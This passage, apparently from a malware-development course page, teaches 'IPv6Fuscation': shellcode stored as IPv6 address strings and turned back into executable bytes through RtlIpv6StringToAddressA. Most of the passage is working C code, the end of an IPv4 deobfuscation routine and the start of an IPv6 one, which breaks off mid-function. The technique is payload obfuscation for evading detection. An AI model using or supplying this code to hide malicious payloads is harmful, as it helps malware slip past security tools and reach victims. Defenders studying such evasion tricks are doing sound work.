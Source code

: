 ```c
			return FALSE;
		}

		// 4 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 4 to store the upcoming 4 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 4);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress     = pBuffer;
	*pDSize         = sBuffSize;

	return TRUE;
}
```

The image below shows the deobfuscation process successfully running.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/ipv4fuscation.png)

### Deobfuscating IPv6Fuscation Payloads

Everything in the deobfuscation process for IPv6 is the same as IPv4 with the only two main differences being:

1. `RtlIpv6StringToAddressA` is used instead of `RtlIpv4StringToAddressA`.
    
2. Each IPv6 address is being deobfuscated into 16 bytes instead of 4 bytes.
    

```c
typedef NTSTATUS(NTAPI* fnRtlIpv6StringToAddressA)(
	PCSTR		S,
	PCSTR*		Terminator,
	PVOID		Addr
);

BOOL Ipv6Deobfuscation(IN CHAR* Ipv6Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL, 
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlIpv6StringToAddressA pRtlIpv6StringToAddressA = (fnRtlIpv6StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv6StringToAddressA");
	if (pRtlIpv6StringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of IPv6 addresses * 16
	sBuffSize = NmbrOfElements * 16;


	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
```